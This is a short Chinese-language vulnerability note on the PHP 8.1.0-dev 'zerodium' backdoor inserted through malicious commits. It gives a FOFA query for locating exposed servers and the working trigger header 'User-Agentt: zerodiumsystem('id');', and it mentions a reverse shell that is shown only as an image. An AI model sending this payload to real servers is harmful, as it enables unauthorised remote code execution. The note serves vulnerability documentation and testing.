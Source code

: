 # PHP zerodium后门漏洞

## 漏洞描述

PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

目前为止PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

## 漏洞影响

> [!NOTE]
>
> PHP 8.1.0-dev

## FOFA

> [!NOTE]
>
> "PHP/8.1.0-dev"

## 漏洞复现

后门为添加请求头

```
User-Agentt: zerodiumsystem('id');
```

> [!NOTE]
>
> 是 User-Agentt 不是 User-Agent

![](resource/PHP-zerodium后门漏洞/media/1.png)

反弹shell

![](resource/PHP-zerodium后门漏洞/media/2.png)